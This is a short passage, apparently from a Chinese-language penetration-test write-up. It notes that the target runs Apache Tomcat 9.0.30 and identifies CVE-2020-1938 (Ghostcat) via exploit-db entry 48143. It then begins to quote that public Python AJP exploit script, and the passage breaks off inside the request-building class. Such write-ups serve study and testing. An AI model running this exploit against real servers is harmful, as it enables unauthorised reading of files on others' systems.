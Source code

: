 nmap

[![](assets/1706771526-44399fd57ad8707e1776ac1c7b8050f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223016-ebd93bde-beb2-1.png)

## 漏洞分析

这里知道了 Apache Tomcat 的信息，从 exploit 找一下对应 poc

找到[https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143) ，发现 CVE-2020-1938 适用于 Apache Tomcat 9.0.30

```plain
#!/usr/bin/python3
# Author: 00theway

import socket
import binascii
import argparse
import urllib.parse

debug = False


def log(type, *args, **kwargs):
    if type == 'debug' and debug == False:
        return
    elif type == 'append' and debug == True:
        return
    elif type == 'append':
        kwargs['end'] = ''
        print(*args, **kwargs)
        return
    print('[%s]' % type.upper(), *args, **kwargs)


class ajpRequest(object):
    def __init__(self, request_url, method='GET', headers=[], attributes=[]):
        self.request_url = request_url
        self.method = method
        self.headers = headers
        self.attributes = attributes

    def method2code(self, method):
        methods = {
            'OPTIONS': 1,
            'GET': 2,
            'HEAD': 3,
            'POST': 4,
            'PUT': 5,
```